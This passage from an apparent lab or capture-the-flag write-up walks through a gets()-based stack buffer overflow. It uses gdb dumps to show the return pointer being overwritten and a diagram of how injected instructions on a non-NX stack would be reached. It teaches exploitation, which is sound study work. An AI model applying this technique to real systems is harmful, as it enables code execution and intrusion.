 ```bash
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.

(gdb) x/30x $esp     # Main's stack frame
0xbffff750:	0xbffff760	0xb7ec6165	0xbffff768	0xb7eada75
0xbffff760:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa
0xbffff770:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa
0xbffff780:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa
0xbffff790:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa
0xbffff7a0:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0x45454545
0xbffff7b0:	0x00000000	0xbffff854	0xbffff85c	0xb7fe1848

(gdb) x 0xbffff7ac        # IP/Return pointer address
0xbffff7ac:	0x45454545 

```

In the previous figure it is observed that the return pointer was overwritten successfully with the value provided (0x45454545). In the **Analyze File** section it was stated that this binary allows execution from stack as it has NX feature disabled. Taking advantage of this, input passed to the program will be updated to accommodate assembly instructions. They will be executed by redirecting `main`'s return pointer to that memory in the stack. This is illustrated in the following diagram:

```
                               +--------------------+ 0x00000000
                               |                    |
                               | Unallocated        |
                               | memory             |
                               |                    |
                               |                    |
                               |                    |
                            +-----------------------+ <------+ Top of the stack (0xbffff724)
                            |  | Local variables    |
                            |  | 0x24 bytes         |
                            |  +--------------------+
                            |  | Previous EBP       |
                get's stack+>  | (0xbffff7a8)       |
                frame       |  +--------------------+
                            |  | Return pointer     |
                            |  | (0x080483d9)       |
                            +-----------------------+ <------+ Stack pointer before calling gets (0xbffff750)
                            |  |                    |
           +----------------------------------------+ <------+ Pointer passed to gets (0xbffff750 + 0x10)
           |                |  |                    | <------+ Main's EBP (0xbffff7a8)
           |                |  | [Padding]          |
           |   main's stack+>  |                    |
           |   frame        |  +--------------------+ <------+ Main's Return Pointer (0xbffff7ac)
Injected--->                |  | [Overwritten       |
payload    |                |  | return address]    |
           |                +-----------------------+ <------+ Stack pointer before calling main (0xbffff7b0)
           |                   | [Injected          |
           |                   | instructions]      |
           |                   |                    |
           +-------------------+--------------------+ 0xFFFFFFFF
```
